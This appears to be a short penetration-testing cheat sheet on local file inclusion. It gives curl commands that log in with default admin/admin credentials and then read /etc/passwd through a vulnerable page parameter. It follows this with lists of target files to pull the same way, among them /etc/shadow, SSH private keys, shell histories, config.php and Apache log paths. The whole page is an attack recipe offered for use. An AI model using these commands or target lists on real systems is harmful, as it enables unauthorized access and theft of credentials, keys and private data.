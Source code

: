 If you read files straight in the browser the styling can becomes unbearable. Really difficult to read. A way around it is to download the files from the terminal. But that won't work if there is a login that is blocking it. So this is a great workaround:

    # First we save the cookie
    curl -s http://example.com/login.php -c cookiefile -d "user=admin&pass=admin"
    curl -s http://example.com/gallery.php?page=/etc/passwd -b cookiefile

### Sensitive files

[This](https://wiki.apache.org/httpd/DistrosDefaultLayout) is the default layout of important apache files.

    /etc/issue (A message or system identification to be printed before the login prompt.)
    /etc/motd (Message of the day banner content. Can contain information about the system owners or use of the system.)
    /etc/passwd 
    /etc/group 
    /etc/resolv.conf (might be better than /etc/passwd for triggering IDS sigs)
    /etc/shadow
    /home/[USERNAME]/.bash_history or .profile
    ~/.bash_history or .profile
    $USER/.bash_history or .profile
    /root/.bash_history or .profile
    
[Source](https://gist.github.com/sckalath/a8fd4e754a72015aa0b8)

#### Web server files

    # Usually found in the root of the website
    .htaccess
    config.php
    
#### SSH

    authorized_keys
    id_rsa
    id_rsa.keystore
    id_rsa.pub
    known_hosts
    
#### Logs

    /etc/httpd/logs/acces_log 
    /etc/httpd/logs/error_log 
    /var/www/logs/access_log 
    /var/www/logs/access.log 
    /usr/local/apache/logs/access_ log 
    /usr/local/apache/logs/access. log 
    /var/log/apache/access_log 
    /var/log/apache2/access_log 
    /var/log/apache/access.log 
    /var/log/apache2/access.log
    /var/log/access_log
    